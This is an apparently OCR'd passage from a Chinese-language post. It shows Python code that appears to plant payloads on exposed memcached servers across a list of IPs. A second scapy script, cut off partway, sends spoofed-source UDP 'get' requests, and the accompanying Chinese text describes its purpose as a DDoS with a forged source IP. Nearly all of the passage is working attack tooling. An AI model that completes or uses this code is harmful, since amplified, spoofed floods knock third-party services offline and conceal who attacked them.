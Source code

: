 ```python
             with open('set_list.txt','w') as outfile:
 
                outfile.write(IP+'\n')
 
        print ( IP+"--------is ok ")
 
    finally:
 
        client.close()
 
 
def Set():
 
    path=raw_input('input the path of target Ip file:')
 
    var_name = raw_input('input the var_name:')
 
    payload = raw_input('input the path of payload file:')
 
    port = raw_input('input the target port:')
 
 
    with open(path,'r') as ips:
 
        for ip in ips:
 
            ip = ip.strip('\n')
	    print ip
            thread = threading.Thread(target=TCP_set, args=(ip,port,var_name,payload))
 
            thread.start()
 
def main():
    Set()
 
if __name__ == '__main__':
    main()
```

针对UDP判断时是否存在漏洞和伪造源IP进行DDOS（判断是否存在漏洞只需要将目标IP设置成自己的即可）：

```python
#!/usr/bin/python
# coding=utf-8
 
from scapy.all import *
import threading
 
screenLock = threading.Semaphore(value=1)
 
global Count
Count = 0
 
 
def UDP_get(target_host, target_port, var_name, src_ip, src_port, count_page):
    global Count
 
    if Count >= count_page:
        print('Atrack is end!')
 
        exit(0)
 
    data = "\x00\x00\x00\x00\x00\x01\x00\x00get " + var_name + "\r\n"
 
```